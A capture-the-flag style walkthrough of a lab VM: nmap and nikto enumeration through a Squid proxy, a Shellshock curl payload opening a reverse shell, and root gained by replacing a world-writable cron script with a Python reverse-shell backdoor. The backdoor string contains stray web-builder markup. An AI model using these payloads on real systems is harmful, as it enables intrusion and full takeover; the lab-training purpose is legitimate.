 # Finding the Box
```
nmap -sn 192.168.114.1-254
```
```
Starting Nmap 7.60 ( https://nmap.org ) at 2018-03-16 20:08 AEDT
Nmap scan report for 192.168.114.2
Host is up (0.00013s latency).
MAC Address: 00:50:56:FE:6D:CA (VMware)
Nmap scan report for 192.168.114.133
Host is up (-0.088s latency).
MAC Address: 00:0C:29:69:FD:DA (VMware)
Nmap scan report for 192.168.114.254
Host is up (-0.10s latency).
MAC Address: 00:50:56:E0:B0:AD (VMware)
Nmap scan report for 192.168.114.131
Host is up.
Nmap done: 254 IP addresses (4 hosts up) scanned in 4.68 seconds
```
# Port Enumeration
```
Starting Nmap 7.60 ( https://nmap.org ) at 2018-03-16 20:09 AEDT
Stats: 0:00:11 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 69.20% done; ETC: 20:10 (0:00:05 remaining)
Nmap scan report for 192.168.114.133
Host is up (0.00086s latency).
Not shown: 997 filtered ports
PORT     STATE  SERVICE    VERSION
22/tcp   open   ssh        OpenSSH 5.9p1 Debian 5ubuntu1.1 (Ubuntu Linux; protocol 2.0)
3128/tcp open   http-proxy Squid http proxy 3.1.19
8080/tcp closed http-proxy
MAC Address: 00:0C:29:69:FD:DA (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.87 seconds
```
#### HTTP Enumeration
```
3128/tcp open   http-proxy Squid http proxy 3.1.19
```
From this we can see that a proxy is open
Trying to connect to http://192.168.114.133 we can see that it is stuck on connecting, so we can assume it is behind a proxy.

We configure the proxy using firefox
Settings>Advanced>Connection>Manual Proxy Connection

Using proxy ip 192.168.114.133 on port 3128
We try to connect again and we made connected through.

Using NIKTO making sure to use it through a proxy
```
nikto -h 192.168.114.133 -useproxy 192.168.114.133:3128
```
```
OSVDB-112004: /cgi-bin/status: Site appears vulnerable to the 'shellshock' vulnerability (http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271).
```
Shellshock vulnerability is found, since it is a linux kernel it is incredibly easy to just pass through a reverse shell.


# Exploiting Vulnerability - Shellshock

Basic shellshock.
```
curl -H "User-Agent: () { :; } ; " website.com
```
Using curl and modifying this to include a reverse shell. Making sure to connect through the proxy
```
curl -H "User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/192.168.114.131/1234 0>&1" 192.168.114.133/cgi-bin/status --proxy 192.168.114.133:3128
```

# Privilege Escalation

Running a linux privilege checker script.

```
Scheduled cron jobs
    -rw-r--r-- 1 root root  722 Jun 20  2012 /etc/crontab
    /etc/cron.d:
    total 20
    drwxr-xr-x  2 root root 4096 Dec  5  2015 .
    drwxr-xr-x 90 root root 4096 Mar 16 14:35 ..
    -rw-r--r--  1 root root  102 Jun 20  2012 .placeholder
    -rw-r--r--  1 root root   52 Dec  5  2015 automate
    -rw-r--r--  1 root root  544 Jul  2  2015 php5
```

We find automate which gives us a clue.
```
cat automate
* * * * * root /usr/bin/python /var/www/connect.py
```
```
cat /var/www/connect.py
#!/usr/bin/python

print "I Try to connect things very frequently\n"
print "You may want to try my services"
```
According to this, it connects to things frequently, fortunately we have write access
```
ls -l /var/www/connect.py
-rwxrwxrwx 1 root root 109 Dec  5  2015 /var/www/connect.py
```
We can completely replace the file with an exploit named connect.py
From https://www.trustedsec.com/2011/06/creating-a-13-line-backdoor-worry-free-of-av/
```
#!/usr/bin/python
# imports here
import socket,subprocess
HOST = '192.168.114.131'    # The remote host
PORT = 1234            # The same port as used by the server
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
# connect to attacker machine
s.connect((HOST, PORT))
# send we are connected
s.send('[fusion_builder_container hundred_percent="yes" overflow="visible"][fusion_builder_row][fusion_builder_column type="1_1" background_position="left top" background_color="" border_size="" border_color="" border_style="solid" spacing="yes" background_image="" background_repeat="no-repeat" padding="" margin_top="0px" margin_bottom="0px" class="" id="" animation_type="" animation_speed="0.3" animation_direction="left" hide_on_mobile="no" center_content="no" min_height="none"][*] Connection Established!')
# start loop
while 1:
     # recieve shell command
     data = s.recv(1024)
     # if its quit, then break out and close socket
     if data == "quit": break
     # do shell command
     proc = subprocess.Popen(data, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE)
     # read output
     stdout_value = proc.stdout.read() + proc.stderr.read()
     # send output to attacker
     s.send(stdout_value)
# close socket
s.close()

```

Root
```
id
uid=0(root) gid=0(root) groups=0(root)
```

